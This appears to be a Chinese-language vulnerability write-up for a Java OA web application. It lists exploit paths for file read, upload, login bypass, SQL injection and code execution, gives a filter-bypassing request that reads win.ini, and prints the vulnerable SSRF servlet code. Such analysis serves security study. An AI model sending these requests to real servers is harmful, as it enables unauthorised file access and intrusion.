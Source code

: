 ```java
    }
}
```





## 历史漏洞

| 漏洞名称                              | 访问路径                                                     |
| ------------------------------------- | ------------------------------------------------------------ |
| ProxyServletUtil 任意文件读取漏洞     | /ProxyServletUtil?url=file:///C:/windows/win.ini             |
| ShowImageServlet 任意文件读取漏洞     | /servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print |
| downLoadFiles.jsp 任意文件读取漏洞    | /system/mediafile/downLoadFiles.js%70                        |
| OfficeServer.jsp 任意文件上传漏洞     | /iweboffice/OfficeServer.jsp;.js                             |
| ln登陆绕过漏洞                        | /2.ln?SYS_LINK                                               |
| loginService.fe 登陆绕过漏洞          | /loginService.fe                                             |
| common_sort_tree.jsp 远程代码执行漏洞 | /common/common_sort_tree.jsp                                 |
| publicData.jsp sql注入漏洞            | /oaerp/ui/common/publicData.js%70 sql注入漏洞                |
| /feReport/chartList.jsp SQL注入漏洞   | /feReport/chartList.js%70                                    |
| /sys/treeXml.jsp SQL注入漏洞          | /sys/treeXml.js%70                                           |
| /parseTree.jsp SQL注入漏洞            | /common/parseTree.js%70                                      |



### ProxyServletUtil 任意文件读取漏洞

```
GET /ProxyServletUti%6c?url=file:///C:/windows/win.ini HTTP/1.1
```

主要是用url编码将`l`进行编码来绕过过滤器的权限校验。代码是典型的SSRF，挖起来很简单

```java
public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String urlString = request.getParameter("url");
    this.writeResponse(response, urlString);
}

private void writeResponse(HttpServletResponse response, String urlString) throws ServletException {
    try {
        URL url = new URL(urlString);
        URLConnection urlConnection = url.openConnection();
        response.setContentType(urlConnection.getContentType());
        InputStream ins = urlConnection.getInputStream();
        OutputStream outs = response.getOutputStream();
        byte[] buffer = new byte[this.READ_BUFFER_SIZE];
        int bytesRead;
        while((bytesRead = ins.read(buffer, 0, this.READ_BUFFER_SIZE)) != -1) {
                outs.write(buffer, 0, bytesRead);
        }

        outs.flush();
        outs.close();
        ins.close();
}
```